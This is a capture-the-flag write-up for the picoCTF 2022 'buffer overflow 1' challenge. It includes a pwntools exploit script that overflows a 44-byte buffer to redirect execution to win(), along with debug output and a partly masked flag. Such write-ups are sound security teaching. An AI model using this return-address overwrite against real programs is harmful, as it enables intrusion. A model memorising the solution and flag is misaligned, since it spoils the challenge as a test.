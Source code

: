 # buffer overflow 1

Tags: picoCTF 2022, Binary Exploitation

| Author | Point    |
| ------ | -------- |
| SANJAY C / PALASH OSWAL | 200 points |

## Description

Control the return address  
Now we're cooking! You can overflow the buffer and return to the flag function in the program.  
You can view source here. And connect with it using nc saturn.picoctf.net 51768  

## Solve

The distance from buf to the return address is -0x02c, which is 44 bytes.

![](<./images/CleanShot 2024-04-17 at 20.43.58.png>)

Overflow buf and overwrite return address. The offset to the return address is 44 bytes.

function win() address is 0x080491f6.

![](<./images/CleanShot 2024-04-17 at 20.48.36.png>)

So, the following is the payload:

```python
payload = b''
payload += b'A' * 44
payload += p32(0x080491f6)
```

The full exploit code is as follows.

```python
from pwn import *

context.log_level = 'debug'

host = 'saturn.picoctf.net'
port = 62804

p = remote(host, port)

p.recvline()

payload = b''
payload += b'A' * 44
payload += p32(0x080491f6)

p.sendline(payload)

p.recvall()
```

```bash
$ python3 exploit.py
[+] Opening connection to saturn.picoctf.net on port 62804: Done
[DEBUG] Received 0x1b bytes:
    b'Please enter your string: \n'
[DEBUG] Sent 0x31 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000020  41 41 41 41  41 41 41 41  41 41 41 41  f6 91 04 08  │AAAA│AAAA│AAAA│····│
    00000030  0a                                                  │·│
    00000031
[+] Receiving all data: Done (100B)
[DEBUG] Received 0x40 bytes:
    b'Okay, time to return... Fingers Crossed... Jumping to 0x80491f6\n'
[DEBUG] Received 0x24 bytes:
    b'picoCTF{addr3ss3s_ar3_3asy_********}'
[*] Closed connection to saturn.picoctf.net port 62804
```

## Flag

```
picoCTF{addr3ss3s_ar3_3asy_********}
```